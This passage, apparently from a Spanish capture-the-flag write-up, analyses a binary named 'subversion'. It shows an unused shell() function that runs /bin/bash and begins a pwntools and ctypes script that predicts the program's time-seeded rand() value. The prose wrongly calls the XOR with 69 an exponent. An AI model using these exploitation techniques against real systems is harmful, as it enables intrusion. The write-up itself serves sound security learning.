 3. Hay una funcion en el código que nunca se utiliza `shell()`, que ademas ejecuta una shell en `bash`.

```c
void shell() {
    system("/bin/bash");
}
```


## Intrusión



### Adivinar número aleatorio

Para adivinar el numero aleatorio primero tenemos que saber que version de la libreria `libc` se esta utilizando para generarlo.

```bash
$ ldd subversion
        linux-vdso.so.1 (0x00007fa3e2c8e000)
        libc.so.6 => /lib/x86_64-linux-gnu/libc.so.6 (0x00007fa3e2a74000)
        /lib64/ld-linux-x86-64.so.2 (0x00007fa3e2c90000)
```

Carga la libreria `libc.so.6` de forma dinamica, pero como es un Docker al final carga la misma libreria del host anfitrion.

La semilla del numero aleatorio se genera mediante el segundo transcurrido desde la época Unix `time()` (epoch) o lo que es lo mismo el numero de segundos transcurridos desde la fecha 1 de enero de 1970 (UTC), este numero es elevado a 69. El resultado es la semilla utilizada para generar el numero aleatorio.

```c
    // Semilla para el generador de números aleatorios basada en un XOR del tiempo y el numero 69
    srand(time(NULL) ^ 69);

    // Generar un número aleatorio entre 0 y 9999999
    random_number = rand() % 10000000;
```

Si conseguimos utilizar la misma libreria para generar el numero aletorio e introducimos la misma semilla en el mismo segundo podremos adivinar el numero aleatorio.

Preparamos un script Python para facilitar todo, responder a las preguntas correctamente y adivinar el numero aletario.

```python
from pwn import *
import ctypes
from datetime import datetime, timezone

binario = './subversion'
p = process(binario)

# Cargar la biblioteca estándar de C
libc = ctypes.CDLL('libc.so.6')

# Funciones para usar rand y srand de C
def c_srand(seed):
    libc.srand(seed)

def c_rand():
    return libc.rand()

# Generar el número aleatorio con la semilla ajustada
current_time = int(datetime.now(timezone.utc).timestamp())
seed = current_time ^ 69
```